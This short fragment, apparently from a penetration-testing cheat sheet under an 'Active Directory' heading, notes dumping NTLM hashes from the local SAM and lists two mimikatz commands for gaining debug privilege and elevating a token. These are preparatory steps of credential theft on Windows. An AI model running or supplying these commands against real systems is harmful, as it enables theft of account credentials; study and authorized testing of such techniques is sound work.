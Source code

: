 # Active Directory

NTLM hashes from local SAM.

    mimikatz # privilege::debug
    mimikatz # token::elevate
